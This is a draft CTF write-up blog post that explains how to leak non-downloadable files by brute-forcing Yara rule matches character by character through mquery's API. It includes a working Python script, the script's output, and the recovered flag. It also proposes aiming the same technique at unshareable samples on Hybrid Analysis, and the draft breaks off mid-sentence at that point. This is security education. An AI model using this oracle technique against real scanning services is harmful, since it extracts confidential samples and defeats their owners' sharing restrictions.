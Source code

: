 ```yaml
---
title: Using Yara to Leak Sensitive Data
author: Megabeets
type: post
date: -001-11-30T00:00:00+00:00
draft: true
url: /?p=1700
categories:
  - Uncategorized

---
```

During CONFidence Teaser CTF, one specific task caught my interest. Not because it was hard or complicated &#8211; it wasn&#8217;t, but because the concept behind it was interesting and relevant to my day-to-day work as a malware researcher. 

In this short article, I will show a **highly esoteric**, not to say **trivial**, concept in which you can leak the content of &#8220;sensitive&#8221; files on systems where scanning the files with Yara is allowed, but downloading the files is not possible. Not only that I&#8217;ll show how it was used, as an **intended solution**, to solve the &#8220;Hidden Flag&#8221; challenge on the CTF, but will also demonstrate how it can be used to retrieve the data of TLP;RED, or un-downloadable files on premium services such as Hybrid-Analysis, where the major limitation is the bandwidth.

Let&#8217;s not move too fast and start from the beginning, the CTF challenge. On &#8220;Hidden-Flag&#8221;, the most solved challenge in this CTF, we are given an online instance of [mquery][1], a &#8220;YARA malware query accelerator&#8221;. In other words, the system lets you run your Yara rules on a repository of files, very fast. The flag, as it seems, exists in the content of a file found in the corpus of files that are indexed and scanned by _mquery_. As a malware researcher, and as a [cert.pl][2] old fanboy, I was already familiar with _mquery_ and experienced with using it. 

The initial idea was to extract the flag using boolean queries of Yara rules. To prove that this concept really works, I started from this sample rule:

<pre class="EnlighterJSRAW" data-enlighter-language="generic" data-enlighter-theme="" data-enlighter-highlight="" data-enlighter-linenumbers="" data-enlighter-lineoffset="" data-enlighter-title="" data-enlighter-group="">rule test {
  strings:
    $flag = "p4{"
  condition:
    $flag
}</pre>

&#8220;p4{&#8221; is the known prefix for flags in this CTF, and indeed, this simple rule showed that the concept is potentially possible and we can now start slowly retrieving the flag. <figure class="wp-block-image size-large">

<img src="../uploads/mquery-screenshot.png" /> </figure> 

In order to retrieve the rest of the flag, we can slowly &#8220;brute force&#8221; it character by character, hoping there will not be any &#8220;brute force&#8221; mitigation or similar limitation. Since I am familiar with the project, I know it has a REST API we can use for our help. For those of you who weren&#8217;t familiar with _mquery_ before, it can be figured out from the [tests][3].

And indeed, we can quickly write a script to brute force the flag, character by character.

<pre class="EnlighterJSRAW" data-enlighter-language="python" data-enlighter-theme="" data-enlighter-highlight="" data-enlighter-linenumbers="" data-enlighter-lineoffset="" data-enlighter-title="" data-enlighter-group="">import string
import requests

QUERY_URL = "http://hidden.zajebistyc.tf/api/query/high"
MATCHES_URL = "http://hidden.zajebistyc.tf/api/matches/{}?offset=0&limit=50"

def request_query (query):
    res = requests.post(QUERY_URL, json={"method": "query", "raw_yara": query})
    res.raise_for_status()
    query_hash = res.json()["query_hash"]
    res = requests.get(MATCHES_URL.format(query_hash))
    if res.json()["job"]["status"] == "done":
        return res


# Define a rule tempplate

test_yara = """
rule find_flag {{
    strings:
        $flag = "{0}"
    condition:
        $flag
}}
"""

# Generate a list of potential characters
potential_chars = "-_}"+string.ascii_lowercase+string.digits+string.ascii_uppercase+"@!"  

# Start from the known prefix of the flag

flag = "p4{"

while True:
    print("[+] Found:",flag)
    for c in potential_chars:
        res = request_query(test_yara.format(flag + c))
        if len(res.json()["matches"]) > 0:
            flag += c
            break
    if c == "}":
        break

print("[+] Flag:", flag)

# flag is "p4{ind3x1ng-l3ak5}"</pre>

Let&#8217;s run the script and see the results come quickly:

<pre class="EnlighterJSRAW" data-enlighter-language="generic" data-enlighter-theme="" data-enlighter-highlight="" data-enlighter-linenumbers="" data-enlighter-lineoffset="" data-enlighter-title="" data-enlighter-group="">$ python3 solution.py

[+] Found: p4{
[+] Found: p4{i
[+] Found: p4{in
[+] Found: p4{ind
[+] Found: p4{ind3
[+] Found: p4{ind3x
[+] Found: p4{ind3x1
[+] Found: p4{ind3x1n
[+] Found: p4{ind3x1ng
[+] Found: p4{ind3x1ng-
[+] Found: p4{ind3x1ng-l
[+] Found: p4{ind3x1ng-l3
[+] Found: p4{ind3x1ng-l3a
[+] Found: p4{ind3x1ng-l3ak
[+] Found: p4{ind3x1ng-l3ak5
[+] Flag: p4{ind3x1ng-l3ak5}
</pre>

### Real-life implications

While this CTF challenge wasn&#8217;t the hardest, to say the least, it indeed shows an interesting concept. For a desperate and motivated-enough person, it is possible to leak some data that wasn&#8217;t meant to be shared with them. But to make this happen, it requires a very niche set-up in which file storage can be scanned with Yara (or any other scanning engine) but some or all the files cannot be downloaded. Esoteric as it sounds, it can happen. The fact is, that this is the exact situation that Cert Polska is dealing with and on which the aforementioned challenge is based. Having a TLP;RED samples in their repository prevents the Polish Cert to publicly open their own _mquery_ instance to the public or other organizations. Having access to such Yara scanning engine on a repository with unshareable samples is a risk they refuse to take. `mquery` is not the only platform to let you scan files using Yara, there are more &#8211; some of them are even commercial.

### Hybrid Analysis

CrowdStrike&#8217;s Hybrid-Analysis is a free automated malware analysis service. Its main feature is a very popular sandbox that is commonly used by the community. Community members upload samples to the platform, and the samples being analyzed in the sandbox. The user are choosing whether they wan to share the binary sample with the community or not. If they choose not to, the analysis of the file is still available to the community, so is the meta-data of the file. The sample itself, of course, is marked as unshareable and cannot be accessed by the community. Finding such &#8220;not-for-share&#8221; files is very easy because Hybrid Analysis highlights these files and marks them visibly.

One of the less-familiar features of Hybrid Analysis is their super-fast Yara scanner. It lets the users the ability to &#8220;Hunt samples matching YARA rules at the byte level.&#8221;. Essentially, users can create their Yara rule and scan it on the entire sample repository of one of the most popular malware analysis services out there. You see where I&#8217;m going at, right? If some samples are not shared publicly, but we do have their metadata, including their hash and some strings from them, we can easily start leaking the entire binary, or parts of it as we wish. Adding that to the fact that Hybrid Analysis&#8217; Yara scanner is very fast, we can run a Yara query 



<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://github.com/CERT-Polska/mquery
 [2]: https://www.cert.pl/en/
 [3]: https://github.com/CERT-Polska/mquery/blob/master/src/tests/test_api.py
